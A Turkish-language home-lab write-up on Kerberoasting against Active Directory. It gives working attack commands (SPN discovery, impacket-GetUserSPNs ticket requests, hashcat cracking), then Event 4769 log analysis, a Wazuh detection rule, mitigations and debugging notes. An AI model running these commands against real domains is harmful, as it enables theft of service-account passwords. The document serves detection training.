


# Aşama 6 — Active Directory Saldırıları

> ⚠️ **Bridge uyarısı:** LLMNR/NBT-NS zehirleme (Responder) bridge modunda
> evdeki gerçek cihazları da etkileyebilir. Bu aşamayı ağın sakin olduğu bir
> zamanda, ağda başka kritik cihaz yokken çalıştır.

## Durum

| Saldırı | Teknik | Durum |
|---------|--------|-------|
| **Kerberoasting** | T1558.003 | ✅ Tamamlandı (saldırı + tespit + önlem) |
| AS-REP roasting | T1558.004 | ⚪ Planlandı |
| LLMNR/NBT-NS zehirleme | T1557.001 | ⚪ Planlandı |

---

# Kerberoasting (T1558.003)

## 1. Amaç ve ortam

**Kerberoasting**, hiçbir yönetici yetkisi olmayan sıradan bir domain kullanıcısının,
SPN'e sahip bir **servis hesabının parolasını** ele geçirmesini sağlayan bir AD
saldırısıdır.

**Zafiyetin kökü:** Active Directory'de SPN'i (Service Principal Name) olan her hesap
için, domaindeki **herhangi bir kimliği doğrulanmış kullanıcı** servis bileti (TGS)
isteyebilir. Bu bilet, hedef **servis hesabının parola özetiyle (NTLM hash)**
şifrelenir. Saldırgan bileti alır, kendi makinesinde **çevrimdışı** kırar ve açık
parolayı elde eder.

**Neden tehlikeli:** Saldırı DC'ye tek bir yanlış parola bile denemez — kırma işlemi
saldırganın kendi makinesinde olur. Bu yüzden brute-force gibi gürültü yapmaz,
**sessizdir**. Servis hesabı yüksek yetkiliyse (çoğu zaman öyledir), tüm domain
tehlikeye girer.

### Lab bileşenleri

| Rol | Değer |
|-----|-------|
| Hedef servis hesabı | `svc-sql` |
| SPN | `MSSQL/sql.lab.local:1433` |
| Ele geçmiş sıradan kullanıcı | `ahmet` |
| Domain Controller (DC01) | 192.168.1.75 |
| Saldırgan (Kali) | 192.168.1.105 |
| SIEM (Wazuh) | 192.168.1.95 |

---

## 2. Saldırı — kullanılan araç ve komutlar

### Adım 1 — SPN keşfi
Roast edilebilir hesapları bulmak için SPN'ler listelenir:
```powershell
setspn -Q */*        # veya hedefe özel: setspn -L svc-sql
```
Çıktı doğrulandı: `svc-sql → MSSQL/sql.lab.local:1433`.

### Adım 2 — Servis bileti alma (hash çıkarma)
Kali'den, `ahmet` kimliğiyle:
```bash
impacket-GetUserSPNs 'lab.local/ahmet:<ahmet_parolasi>' -dc-ip 192.168.1.75 -request-user svc-sql
```
Çıktı (Kerberoast hash):
```
$krb5tgs$23$*svc-sql$LAB.LOCAL$lab.local/svc-sql*$...
```
`23` = etype 23 = **RC4**. impacket varsayılan olarak RC4 bilet ister, çünkü RC4 ile
şifreli biletlerin çevrimdışı kırılması AES'e göre çok daha kolaydır.

> **Tuzak:** Parolada `*` gibi özel karakter varsa `kullanıcı:parola` kısmını **tek
> tırnak** içine al (`'lab.local/ahmet:Aa123456789*'`). Aksi halde zsh `*` ve `<>`
> karakterlerini genişletir ve "no such file or directory" hatası alırsın.

### Adım 3 — Çevrimdışı kırma
```bash
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```
- `-m 13100` = Kerberos 5 TGS-REP (etype 23) kırma modu.
- Parola zayıfken (`Password1`) **0 saniyede** kırıldı (14M kelimenin ~%0.03'ü).

**Kanıtlanan saldırı zinciri:**
```
ahmet (sıradan kullanıcı, admin yetkisi yok)
  → DC'den svc-sql için TGS istedi
  → RC4 ile şifreli hash'i aldı
  → kendi makinesinde çevrimdışı kırdı
  → svc-sql'in açık parolası ele geçti
```

---

## 3. Loglar

Saldırı, DC'de **Event ID 4769** ("Bir Kerberos hizmet anahtarı istendi") olayı üretir.
Saldırıyı normal trafikten ayıran alanlar:

| Alan | Normal bilet | Saldırı bileti |
|------|--------------|----------------|
| `serviceName` | krbtgt, bilgisayar hesapları (`...$`) | **svc-sql** (servis hesabı) |
| `ticketEncryptionType` | `0x12` / `0x11` (AES) | **`0x17`** (RC4) |
| `targetUserName` | bilgisayar hesapları | **ahmet** (kullanıcı) |
| `ipAddress` | `::1` (yerel) | **192.168.1.105** (Kali) |

> DC'nin kendi günlüğünde doğrulama (dil bağımsız, olay alanlarından):
> ```powershell
> Get-WinEvent -FilterHashtable @{LogName='Security'; Id=4769} -MaxEvents 20 |
>   Select-Object TimeCreated,
>     @{N='User';E={$_.Properties[0].Value}},
>     @{N='Service';E={$_.Properties[2].Value}},
>     @{N='Enc';E={$_.Properties[5].Value}},
>     @{N='IP';E={$_.Properties[6].Value}} | Format-Table -AutoSize
> ```
> (PowerShell `Enc` sütununda onluk **23** gösterir; Wazuh onaltılık **0x17** — aynı değer.)

---

## 4. Tespit kuralı (Wazuh)

### Kök sorun
Wazuh'un **varsayılan kuralları başarılı (status 0x0) 4769 isteklerine alarm üretmez** —
bunlar çok yaygın olduğu için `windows_security` grubunda **level 0** (sessiz) tutulur.
Yani saldırının logu Wazuh'a *ulaşır* ama bir alarma *dönüşmez*. Tespit mühendisliğinin
görevi, saldırının imzasını (servis hesabı için RC4 bilet) bilip bu sessiz olayı
yüksek seviyeli bir alarma çevirmektir.

### Çalışan kural
`/var/ossec/etc/rules/local_rules.xml`:
```xml
<group name="windows,kerberos,attack,">
  <!-- Kerberoasting: bir servis hesabı için RC4 (0x17) şifreli TGS isteği.
       windows_security grubunun alt kuralı olarak her Security olayında değerlendirilir. -->
  <rule id="100300" level="12">
    <if_group>windows_security</if_group>
    <field name="win.system.eventID">^4769$</field>
    <field name="win.eventdata.ticketEncryptionType">^0x17$</field>
    <description>Kerberoasting suphesi: RC4 (0x17) sifreli servis bileti istendi (T1558.003). Hedef servis: $(win.eventdata.serviceName), kaynak IP: $(win.eventdata.ipAddress)</description>
    <mitre>
      <id>T1558.003</id>
    </mitre>
  </rule>
</group>
```

### Kuralı parça parça (100300)
| Satır | Ne yapar |
|-------|----------|
| `<if_group>windows_security</if_group>` | Her Windows Security olayının **alt dalında** değerlendir (çözümleme sırası: olay önce temel kurala düşer, sonra buraya) |
| `<field name="win.system.eventID">^4769$</field>` | Sadece **Event 4769** (TGS/servis bileti isteği); `^4769$` = tam eşleşme (47690 gibi başka id'lere kaymaz) |
| `<field name="win.eventdata.ticketEncryptionType">^0x17$</field>` | Bilet **RC4 (0x17)** ile şifreli → Kerberoasting'in imzası (normal trafik AES 0x11/0x12 kullanır) |
| `<description>... $(win.eventdata.serviceName) ... $(win.eventdata.ipAddress)</description>` | **Dinamik enterpolasyon:** `$(alan)` alarm metnine o olayın **canlı değerini** basar (hedef servis + kaynak IP) → analist tek bakışta bağlamı görür |
| `<mitre><id>T1558.003</id></mitre>` | ATT&CK eşlemesi (Kerberoasting) |

> **İki `field` = VE mantığı:** Bir kuraldaki birden çok `<field>`'in **hepsi** eşleşmelidir.
> Yani "Event 4769 **ve** şifreleme 0x17" — ikisi birden olmazsa alarm düşmez. Tek başına
> çok yaygın olan 4769'u, "RC4 ile" koşulu daraltıp saldırıya özgü hale getirir.

**Neden `if_group` (ve neden `decoded_as` değil):** İlk denediğimiz `decoded_as
windows_eventchannel` kuralı, Wazuh'un temel kural ağacıyla *yarışıp kaybediyordu*
(atomik sibling olarak öncelik alamıyordu). `if_group windows_security` ile kural,
her Security olayını süzen temel kuralın **alt dalına** girer ve öncelik kazanır.

### Doğrulama (üretilen alarm)
```
rule.id:            100300
rule.level:         12
rule.description:   Kerberoasting suphesi: RC4 (0x17)... Hedef servis: svc-sql, kaynak IP: ::ffff:192.168.1.105
rule.groups:        windows, kerberos, attack
rule.mitre.technique: Kerberoasting
```

### Yanlış pozitif (FP) notu
RC4, bazı eski/legacy uygulamalarda meşru da olabilir. Üretimde:
- Bilinen legacy servisleri kuraldan hariç tut, **veya**
- **Frekans korelasyonu** ekle: aynı kaynaktan kısa sürede çok sayıda farklı SPN için
  bilet istenmesi, tek bir RC4 isteğinden çok daha güçlü (ve daha az FP'li) bir sinyaldir.

---

## 5. MITRE ATT&CK

| | |
|---|---|
| Teknik | **T1558.003 — Kerberoasting** |
| Taktik | **Credential Access** |
| Tespit kaynağı | Windows Security log, Event ID 4769 |

---

## 6. Önlem

1. **Güçlü ve uzun servis hesabı parolası (25+ karakter).** `Password1` 0 saniyede
   kırıldı; 25+ rastgele karakter çevrimdışı kırmayı pratikte imkânsız yapar.
2. **gMSA (Group Managed Service Accounts).** Windows'un otomatik üretip 30 günde bir
   döndürdüğü 120 karakterlik parolalar — en güçlü yapısal çözüm.
3. **RC4'ü kapat, AES'i zorla.** Servis hesabında `msDS-SupportedEncryptionTypes`
   ile yalnızca AES'e izin ver → saldırgan 0x17 bileti alamaz.
4. **En az yetki.** Servis hesabı asla Domain Admin olmasın; ele geçse bile hasar sınırlı kalır.
5. **Tespit.** Kurduğumuz 4769 + RC4 kuralı + honeypot SPN (kimsenin kullanmadığı sahte
   bir servis hesabı — ona gelen her bilet isteği %100 saldırıdır).

---

## 7. Karşılaşılan sorunlar ve çözümleri (tespit debug günlüğü)

Alarm ilk denemelerde düşmedi; tahminle değil, **uçtan uca zinciri doğrulayarak** çözdük.
Bu sıra, bir tespit kuralı tetiklenmediğinde izlenecek standart yoldur:

| # | Kontrol | Nasıl | Sonuç |
|---|---------|-------|-------|
| 1 | **Üretim** — olay kaynakta var mı? | DC'de `Get-WinEvent ... Id=4769` | ✅ svc-sql / 0x17 / Kali IP mevcut |
| 2 | **Denetim** — audit açık mı? | `auditpol /get /subcategory:"{0CCE9240-69AE-11D9-BED3-505054503030}"` | ✅ "Success and Failure" |
| 3 | **İletim** — ajan eliyor mu? | DC `ossec.conf` → Security `<query>` | ✅ 4769 filtrede yok, gönderiliyor |
| 4 | **Ulaşım/ajan** — ajan aktif mi? | Wazuh `agent.name:DC01` | ✅ Aktif, log akıyor |
| 5 | **Eşleşme** — kural doğru ağaçta mı? | `decoded_as` → ✗, `if_group` → ✅ | Kural `if_group`'la düzeltildi |

**Diğer tuzaklar:**
- zsh'te özel karakterli parola → **tek tırnak** (`'...*'`).
- PowerShell'de GUID `{...}` süslü parantezi kod bloğu sanır → **çift tırnakla** sar.
- `wazuh-logtest`'e elle yapıştırılan JSON, `windows_eventchannel` değil `json`
  çözücüsüyle işlenir → gerçek ajan formatını taklit etmez, bu yolla kural testi yanıltıcıdır.

---

## 8. Ekran görüntüleri

**Kerberos denetim alt kategorisi açık (4769 üretimi için ön koşul):**



**Tespit mantığının doğrulanması — `wazuh-logtest` ile örnek 4769 olayı
(serviceName `svc-sql`, `ticketEncryptionType 0x17` = RC4, kaynak Kali `192.168.1.105`):**



> Henüz eklenecek görseller (saldırı tarafı tekrar çalıştırılınca yakalanacak):
> - `06-saldiri-hash.png` — GetUserSPNs çıktısı ($krb5tgs$23$ hash)
> - `06-hashcat-cracked.png` — hashcat ile parolanın kırılması
> - `06-dc-getwinevent.png` — DC'de 4769 olaylarının Get-WinEvent çıktısı
> - `06-alarm-100300.png` — Wazuh'ta tetiklenen level 12 Kerberoasting alarmı
